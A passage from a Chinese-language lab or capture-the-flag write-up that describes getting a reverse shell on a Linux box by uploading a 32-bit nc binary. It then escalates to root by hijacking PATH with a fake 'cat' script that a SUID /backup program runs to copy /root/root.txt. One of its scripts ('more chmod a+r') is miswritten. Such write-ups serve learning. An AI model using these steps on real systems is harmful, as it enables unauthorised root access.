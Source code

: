 ```
---
第一次上传的64位nc,提示出错
-bash: /home/mitsos/nc: cannot execute binary file: Exec format error
于是再次上传32位nc
---
uname -a
Linux LazyClown 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux

i686说明是32位的系统版本
```

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-09/6.PNG)
成功反弹shell

## 提权
新建cat文件，内容是shell脚本。当suid程序执行cat /etc/shadow，加入环境变量后，会先执行以下脚本。

```
#!/bin/sh
more /root/root.txt > /home/mitsos/root.txt
```

添加环境变量`export PATH=.:$PATH`；`chmod +x cat`，给/home/mitsos/cat添加执行权限。

运行/backup，发现root.txt已经复制到该目录。但是查看一下，发现还是root权限可读。

```
#!/bin/bash
more chmod a+r /home/mitsos/root.txt
```

修改cat，然后再次运行backup即可获得root.txt的内容
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-09/7.PNG)
